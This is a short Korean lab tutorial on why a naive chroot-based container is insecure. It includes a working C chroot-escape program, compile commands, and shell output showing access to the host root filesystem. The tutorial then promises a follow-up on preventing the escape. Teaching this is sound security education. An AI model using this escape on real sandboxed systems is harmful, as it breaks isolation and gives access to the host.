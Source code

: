 <br>

# chroot 해킹
docker 레포지토리 이미지 다운로드받아서 chroot하면 쉽게 컨테이너를 구동할 수 있겠다는 생각이 들 수도 있지만 지금같이 컨테이너를 만든다면 탈옥 해킹이 가능하다. 

```c
// /tmp/escape_chroot.c
#include <sys/stat.h>
#include <unistd.h>

int main(void)
{
   mkdir(".out", 0755);
   chroot(".out");
   chdir("../../../../../");
   chroot(".");
   return execl("/bin/sh", "-i", NULL);
}
```

c 파일 생성 후 myroot에 컴파일한다
```zsh
root@ubuntu1804:/tmp# vi escape_chroot.c
root@ubuntu1804:/tmp# gcc -o myroot/escape_chroot escape_chroot.c
root@ubuntu1804:/tmp# tree -L 1 myroot
myroot
├── bin
├── escape_chroot
├── lib
├── lib64
├── proc
└── usr
```

그리고 chroot 후에 다음 파일을 실행하면 탈옥이 성공된다. 실제 루트 디렉토리에 접근할 수 있다
``` zsh
chroot myroot /bin/sh
./escape_chroot
ls

root@ubuntu1804:/tmp# chroot myroot /bin/sh
# ls
bin  escape_chroot  lib  lib64	proc  usr
# cd ../../
# cd ../../../../
# ./escape_chroot
# ls
bin   home	      lib64	  opt	sbin  usr      vmlinuz.old
boot  initrd.img      lost+found  proc	srv   vagrant
dev   initrd.img.old  media	  root	sys   var
etc   lib	      mnt	  run	tmp   vmlinuz
```

탈옥이 성공하였다. 해커가 host 파일시스템에 침투하였다. 다음 실습에서 이를 막아보자. 

<br>

# refs
- https://youtu.be/lVtgqmjv4BQ
- https://netpple.github.io/docs/make-container-without-docker/
